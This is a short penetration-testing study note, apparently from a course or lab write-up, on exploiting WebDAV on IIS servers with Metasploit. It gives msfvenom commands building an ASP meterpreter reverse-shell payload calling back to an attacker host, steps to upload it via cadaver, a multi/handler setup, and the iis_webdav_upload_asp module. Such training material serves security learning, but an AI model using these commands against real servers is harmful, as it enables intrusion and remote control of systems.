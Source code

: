 # Exploiting WebDAV With Metasploit

## Practical Demo

### Manual Exploitation

&#x20;Enumerate the target with "<mark style="color:red;">http-enum</mark>"

Generate ".asp" payload with "<mark style="color:red;">msfvenom</mark>"

* "<mark style="color:yellow;">msfvenom -p windows/meterpreter/reverse\_tcp LHOST=10.10.5.2 LPORT=1234 -f asp > shell.asp</mark>"

<mark style="color:purple;">NOTE:</mark> When choosing the OS architecture for the payload, if not sure choose 32-Bit since that works either way. For 64-bit targets use "<mark style="color:red;">windows/x64/meterpreter/reverse\_tcp</mark>"

* "<mark style="color:yellow;">cadaver http://targetIP/webdav/</mark>"

Enter credentials

Upload payload file to the server:

* "<mark style="color:yellow;">put 'pathtofile'</mark>"

To receive the  connection we  now need to set up a handler on Metasploit.

* "<mark style="color:yellow;">use multi/handler</mark>"
* "<mark style="color:yellow;">set payload windows/meterpreter/reverse\_tcp</mark>"

<mark style="color:orange;">LHOST AND LPORT HAVE TO BE THE SAME AS IN PAYLOAD</mark>

* "<mark style="color:yellow;">getuid</mark>":  To get privileges

## Using Metasploit Module

Allows to upload a malicios asp file to the web server

"<mark style="color:red;">exploit/windows/iis/iis\_webdav\_upload\_asp</mark>"

* You need to set the credentials in "HttpPassword" "HttpUsername"

Set the path to upload the file to in the webserver:

* "<mark style="color:yellow;">set PATH '/webdav/nametogivefile</mark>'"&#x20;



















